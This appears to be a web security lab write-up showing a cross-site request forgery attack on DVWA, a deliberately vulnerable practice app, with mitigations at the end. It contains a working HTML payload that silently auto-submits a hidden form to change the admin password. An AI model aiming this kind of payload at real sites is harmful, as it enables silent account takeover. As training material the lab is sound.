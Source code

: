 ## 🔍 Lab 5: CSRF – Silent Admin Takeover

### 💼 Scenario

An admin password change form lacks CSRF protection. A malicious site silently submits the form.
### 🎯 Objective

Trigger a CSRF attack to change the admin password.

### 🧪 Steps

1. Create an HTML file:

```html
<form action="http://localhost:8080/vulnerabilities/csrf/" method="POST">
  <input type="hidden" name="password_new" value="hacked123">
  <input type="hidden" name="password_conf" value="hacked123">
  <input type="submit">
</form>
<script>document.forms[0].submit();</script>
```
2. Host it or open in browser while DVWA is logged in.
3. Visit the malicious file → password changed silently.

### 🧠 Real-World Context

CSRF is often overlooked in internal tools or forms assumed to be “safe” due to authentication.

### 🛡️ Mitigation

- Use CSRF tokens in forms.
- Set SameSite attribute on cookies.
- Validate request origin and referrer.